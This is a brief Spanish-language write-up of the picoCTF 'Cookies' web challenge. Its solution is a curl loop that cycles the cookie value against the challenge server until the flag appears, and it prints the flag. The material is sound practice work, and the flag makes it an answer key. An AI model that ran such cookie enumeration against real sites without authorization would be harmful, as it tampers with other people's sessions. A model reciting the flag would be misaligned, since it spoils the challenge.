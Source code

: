 #### - **Descripción** 
¿A quién no le encantan las galletas? Intenta descubrir cuál es la mejor. [http://mercury.picoctf.net:21485/](http://mercury.picoctf.net:21485/)

#### - **Solución** 
richi@RicardoMedina:~$ for i in {1..20}; do curl -s http://mercury.picoctf.net:21485/check -H "Cookie: name=$i"; done | grep -oE "picoCTF{.*?}"
picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}

richi@RicardoMedina:~$ curl http://mercury.picoctf.net:21485/check -H 'Cookie: name=18' | grep -oE "picoCTF{.*?}"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1184  100  1184    0     0    923      0  0:00:01  0:00:01 --:--:--   923
picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}

